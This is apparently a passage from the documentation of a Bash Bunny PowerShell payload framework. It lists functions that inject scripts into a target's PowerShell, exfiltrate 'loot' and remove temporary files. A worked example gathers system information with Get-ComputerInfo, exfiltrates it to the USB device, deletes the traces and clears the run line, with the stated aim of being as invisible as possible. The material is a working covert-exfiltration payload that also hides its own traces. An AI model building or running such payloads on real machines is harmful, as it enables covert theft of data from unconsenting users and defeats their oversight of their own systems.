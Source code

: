 REMOVE_PSTEMPFILE will remove any file from the Powershell temporary directory that is listed as an argument to the function - typically you would call this just before CLOSE_POWERSHELL with a list of any modules, scripts or other files you have injected into Powershell.  The framework will take care of removing any temporary files it has created itself when CLOSE_POWERSHELL is called.

CLOSE_POWERSHELL does cleanup and exits powershell (unless you have set "NOISY" in the INVOKE_POWERSHELL parameters)

STASH_LOOT will move your exfiltrated loot files from a loot sub-folder of the switch folder (where they are stored while the payload is running) into /loot/<Directory>n where Directory is the parameter passed to the function, and n is a number which increments from zero.  This allows you to run the payload multiple times without having to clear down loot folders, or get your loot overwritten.

## Framework Functions - Powershell
Most of the framework functions are internal to the framework to support the loading of modules and scripts. There is one function that you will need to use in your powershell scripts to exfiltrate any loot back to the bashbunny

    Invoke-BBExfil <Windows filename to exfiltrate>

The other functions in the framework are designed as helper functions to be called from bash by the framework.  They are however aliased and available in powershell should you find a use for them in your powershell scripts!

## Worked Example

As a worked example, suppose that we want to write a powershell script to run the powershell command   Get-ComputerInfo, capture the output to a file and save it to the bashbunny as loot.  We want this payload to be as invisible as possible, without using the bashbunny's mass storage attackmode.  How would we use the framework to do that?

First off, let's create the powershell script that we will run.  It will contain the command Get-ComputerInfo, pipe the output to a temporary file (we will use a temporary file in the powershell temp directory), and then exfiltrate this file to the bashbunny using the framework.  Lastly, it cleans up the temporary file after we have exfiltrated it.

    Get-ComputerInfo > $env:TEMP\tempfile.txt
    Invoke-BBExfil $env:TEMP\tempfile.txt
    echo "" > $env:TEMP\tempfile.txt
    del $env:TEMP\tempfile.txt

And that is it on the powershell side - save this as getinfo.ps1 in the payload switch directory of your choice.

Now for the bashbunny payload.  Again, the bashbunny powershell framework makes this very straightforward:

    LED SETUP
    INVOKE_POWERSHELL                                 # Start up powershell - the framework will default to NET QUIET OFF 
    LED ATTACK
    INJECT_PSSCRIPT getinfo.ps1 CompInfo.txt          # Run the script getinfo.ps1 and capture the loot to CompInfo.txt
    LED CLEANUP
    REMOVE_PSTEMPFILE getinfo.ps1                     # Note you do NOT need to invoke this function for any loot files
    CLOSE_POWERSHELL                                  # CLose down powershell and tidy up the windows run line
    STASH_LOOT CompInfo                               # Save the loot properly on the bashbunny
    LED FINISH
    